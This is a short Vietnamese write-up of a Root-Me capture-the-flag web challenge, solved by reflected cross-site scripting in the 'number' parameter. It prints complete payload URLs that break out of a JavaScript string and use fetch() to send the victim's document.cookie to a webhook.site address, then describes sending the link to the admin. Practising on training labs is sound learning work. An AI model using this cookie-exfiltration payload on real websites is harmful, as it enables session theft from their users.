







Challenge: http://challenge01.root-me.org/web-client/ch32/

Ta thử với 1 số bất kì: 

Qua mã nguồn ta thấy số 3 được thêm vào:

Dùng `'` để thoát input và chèn thêm js: 

Bây giờ ta chèn thêm webhook để lấy cookie: 
`http://challenge01.root-me.org/web-client/ch32/?number=%27;fetch(%22https://webhook.site/a79b7f74-f2fd-4fa5-8465-8b2b267acf3d%22);//`

Lấy thêm cookie:
`http://challenge01.root-me.org/web-client/ch32/?number=%27;fetch(%22https://webhook.site/a79b7f74-f2fd-4fa5-8465-8b2b267acf3d?c=%22.concat(document.cookie));//`

Gửi admin và nhận flag:

